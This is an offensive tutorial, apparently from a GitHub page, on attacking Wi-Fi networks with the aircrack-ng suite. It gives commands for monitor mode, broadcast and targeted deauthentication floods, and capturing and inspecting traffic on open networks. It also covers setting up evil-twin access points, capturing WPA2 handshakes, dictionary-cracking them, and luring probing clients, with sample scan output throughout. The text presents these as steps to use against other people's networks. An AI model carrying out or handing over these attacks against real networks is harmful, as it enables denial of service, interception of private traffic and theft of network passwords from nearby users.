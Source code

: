 # WiFi hacking

##Getting started
For many of these examples I'll be making use of the [aircrack suite](http://www.aircrack-ng.org/) which is a tool designed for WiFi hacking.

Some of these attacks require multiple WiFi devices. Your chipset may or may not have all the required built in functionality for these attacks, so I recommend buying one you know is compatible. I know the [Ralink RT3070](http://www.amazon.com/gp/product/B009UWLF62/ref=oh_aui_detailpage_o01_s00?ie=UTF8&psc=1) is completely compatible with everything in this post.
 
Many of these attacks also require your device be put into **monitor mode** which can be done with the following aircrack command

``` bash
$ airmon-ng <start|stop> <interface>
```

This creates a new interface (for this post it's assumed this is **mon0**) and puts it in monitor mode.


There are different attacks one can perform depending on a number of factors, however these attacks generally fall into one of the following categories 

 * **Denial of Service:** Prevent a user from using WiFi
 * **Content inspection:** View resources being sent to and from a user 
 * **Content injection:** Send a user malicious content they didn't ask for

Note: Sending packets (generally associated with _Content injection_ and _Denial of Service_) is a destructive process. Your device has to put out RF signals to perform these attacks, and they can be **triangulated back to your location**. Reading packets from around you (generally associated with _Content inspection_) is a non-destructive process. It's impossible for an outside observer to know if your computer is reading packets or not, even if those packets weren't explicitly sent to your device.

I'll be talking about the types of situations you can perform each type of attack.  

##Deauthentication
Built into the 802.11 protocol there is a deauthenticate packet. This packet is normally sent to clients from an Access Point to let the client know the connection is being terminated. It doesn't matter what type of encryption the Access Point is using; these packets look the same regardless. This means they can always be used by an attacker as a _Denial of Service_ and it's often combined with other attacks discussed later. 

This type of attack generally comes in two different flavors seen below

* **Broadcast:** These can are sent from an Access Point to no specified destination address. Many clients will recognize this and drop connection. Below is an example from the aircrack suite to impersonate the Access Point 00:14:6C:7E:40:80 and send a broadcast deauth packet

``` bash
$ aireplay-ng -0 1 -a 00:14:6C:7E:40:80 mon0
```
* **Targeted:** This is sent from an Access Point to a specific client. These are generally considered more effective, as some clients ignore the broadcasts. Below is an example of targeting client 00:0F:B5:34:30:30 impersonating the same access point as above. 

```bash 
$ aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 mon0
```

Clients will generally attempt to reconnect after being deauthenticated, however these can be also be repeated (the 1 in the above commands can be changed to the number of repeat times desired).

##Open networks

An open WiFi network is a network that does not use any type of encryption between client and Access Point. These are often found in coffee shops and other public areas.

To view all the open networks in your area you can use the following aircrack command

```bash
$ sudo airodump-ng --encrypt OPN mon0
```

below is a sample output

``` bash
 CH -1 ][ Elapsed: 3 mins ][ 2015-01-11 19:44                                         
                                                                                                                                               
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                                                
                                                                                                                                               
 06:1D:D4:2C:ED:60  -88        9        0    0  11  54e  OPN              xfinitywifi                                                          
 16:AB:F0:9F:DC:30  -77        2        0    0   6  54e  OPN              xfinitywifi                                                          
 00:00:00:00:00:00  -72       11        0    0   6  54   OPN              <length:  0>                                                         
 CE:03:FA:DC:2C:94  -49        3        0    0   1  54e. OPN              xfinitywifi                                                          
 10:5F:06:CC:36:98   -1        0        0    0 158  -1                    <length:  0>                                                         
                                                                                                                                                
 BSSID              STATION            PWR   Rate    Lost  Packets  Probes                                                                      
                                                                                                                                                
 (not associated)   64:9A:BE:E7:FD:70  -89    0 - 1      0        1                                                                             
 (not associated)   1C:1A:C0:99:13:FA  -61    0 - 1      0       20                                                                             
 (not associated)   8C:3A:E3:70:75:F1  -81    0 - 1      0        2       
```

Above are all Access Points with open networks in range. Below the Access Points are all clients either attached to open networks or not associated.

Because these access points do not require any encryption _Content inspection_ is trivial. The following command can be used to capture all traffic on an Access Point and save it to a pcap file

``` bash
$ sudo airodump-ng -c 10 --bssid 06:1D:D4:2C:ED:60 -w xfinitywifi.pcap mon0
```
Where the channel (-c 11) and bssid (--bssid 06:1D:D4:2C:ED:60) are obtained from the scan above.

Some traffic may be encrypted on the application layer with SSL/TLS, however anything that isn't can be viewed in plain text in this capture file. To view plane text bits of it you can run **strings** on the file, or you can simply open the file up in [wireshark](https://www.wireshark.org/) for your viewing pleasure.

Clients that are connected to open networks will probably attempt to reconnect if deauthenticated. For this reason you can setup an access point with the same SSID and send deauth packets to connected users until they connect to your access point.

To setup an ad-hoc Access Point the following guide can be used for ubuntu http://ubuntuhandbook.org/index.php/2014/09/3-ways-create-wifi-hotspot-ubuntu/ 

Once you have users connected to your ad-hoc network you are in a position for both _Content Injection_ and _Content inspection_

## WPA/WPA2 networks

The only way to perform _Content injection_ or _content inspection_ on a WPA/WPA2 network is to run a dictionary or brute force attack against the authentication handshake. This can be captured and run performed locally for a quick crack if you're lucky. Repeating the process for scanning for networks in the previous section, you can scan for networks using the following 

```bash
$ sudo airodump-ng mon0
```
 Because we didn't specify an encryption type this time it will show all available networks. 

Select a WPA/WPA2 network you're interested in and start capturing

``` bash
$ sudo airodump-ng -c 10 --bssid 10:70:CA:BE:AB:EE -w tomsEncryptedNetwork.pcap mon0
```

When a handshake occurs it will display it along the top as seen below

```bash
  CH  9 ][ Elapsed: 4 s ][ 2007-03-24 16:58 ][ WPA handshake: 10:70:CA:BE:AB:EE
                                                                                                               
  BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID
                                                                                                               
  10:70:CA:BE:AB:EE   39 100       51      116   14   9  54  WPA2 CCMP   PSK  teddy                           
                                                                                                               
  BSSID              STATION            PWR  Lost  Packets  Probes                                             
                                                                                                               
  10:70:CA:BE:AB:EE  00:0F:B5:FD:FB:C2   35     0      116  
```

You can either wait for a handshake the slow way, or you can deauthenticate user's using above techniques and wait for them to reconnect.

This handshake can now be used with aircrack to perform a dictionary attack locally. The following command can be used to do this 

```bash
aircrack-ng -w passwords.txt -b 10:70:CA:BE:AB:EE tomsEncryptedNetwork.pcap
```

Where password.txt is a file of newline separated likely passwords. You can obtain such a password from a number of places; [I found a few off google](https://wiki.skullsecurity.org/Passwords)

With any luck this will identify the password used, and allow you to then repeat the process from the open network to throw up your own network with the same SSID and password as the encrypted network.

If you capture a full handshake, and you manage to crack the password, you have all the keys necessary to decrypt WPA2 traffic. Each time a client connects new keys are generated, so the handshake is specific to that session. One way to do this is in wireshark, with the following tutorial http://wiki.wireshark.org/HowToDecrypt802.11

If you know the passphrase but you did not capture the full handshake, you will probably not be able to decrypt the traffic from that dump however one thing I noticed is that the Nonces used to calculate the keys in the handshake are often very low entropy and may be predictable.

##WEP Networks

I'm not going to spend too much time talking about WEP networks because they are not as common anymore. The following guide can be used to crack WEP networks http://www.aircrack-ng.org/doku.php?id=simple_wep_crack

##No network, just clients
Clients will send probes asking for WiFi networks with known SSIDs. These are broadcasted out unencrypted. They can be viewed with the same WiFi network monitor command used above

```bash
$ sudo airodump-ng mon0
```

You'll see more of them popping up if you begin sending deauth packets to networks that have lots of clients. 

If you notice a probe for a network that might be open, like 'Public Library Wifi' or something along those lines, you can throw up an ad-hoc network with that SSID and the client will probably connect to you.

If the client is broadcasting a WPA2 network, you can throw up an SSID the same as the one they are looking for, even if the passphrase is wrong, and capture half of the 4 way handshake, and then use this half handshake to run a dictionary attack against the hashed passphrase the client sent you.

Aircrack does not have a built in way of doing this so I wrote a tool for it seen here https://github.com/dxa4481/WPA2-HalfHandshake-Crack

Once cracked, you can throw up an ad-hoc network and have the client probing for that network connect to you.


